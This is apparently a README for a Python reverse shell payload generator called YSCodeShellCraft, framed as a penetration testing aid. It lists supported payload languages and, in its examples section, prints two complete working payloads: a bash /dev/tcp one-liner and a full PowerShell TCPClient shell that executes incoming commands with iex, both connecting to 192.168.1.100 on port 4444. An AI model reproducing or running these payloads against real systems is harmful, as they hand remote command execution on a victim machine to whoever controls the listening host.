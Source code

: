 # YSCodeShellCraft


====================================
Reverse Shell Payload Generator Help
This tool generates reverse shell payloads for Linux and Windows systems. Reverse shells allow a remote user to gain control of a target system by creating a connection from the target system to the remote user's machine. This can be useful for penetration testing or other security-related tasks.

Usage:
To use the tool, simply run the script in a terminal window:

Copy code
python3 YSCodeShellCraft.py 
You will be prompted to select a language for the payload (either "linux" or "windows"), and then enter an IP address and port number to connect to.

Payloads:
The tool supports the following reverse shell payload types:

Linux:

bash
perl
python
php
ruby
netcat
socat
nodejs
Windows:

powershell
windows_python
windows_ruby
windows_nodejs
Examples:
To generate a bash reverse shell payload for Linux, enter the following command:

yaml
Copy code
python3 YSCodeShellCraft.py
Enter the language for the reverse shell payload: linux
Enter IP address: 192.168.1.100
Enter Port number: 4444

Linux Reverse Shell Payload:
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
To generate a powershell reverse shell payload for Windows, enter the following command:

perl
Copy code
python YSCodeShellCraft.py
Enter the language for the reverse shell payload: windows
Enter IP address: 192.168.1.100
Enter Port number: 4444

Windows Reverse Shell Payload:
powershell -NoP -C "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.100',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"
If you need further assistance or have any questions, please consult the documentation or contact the developer.
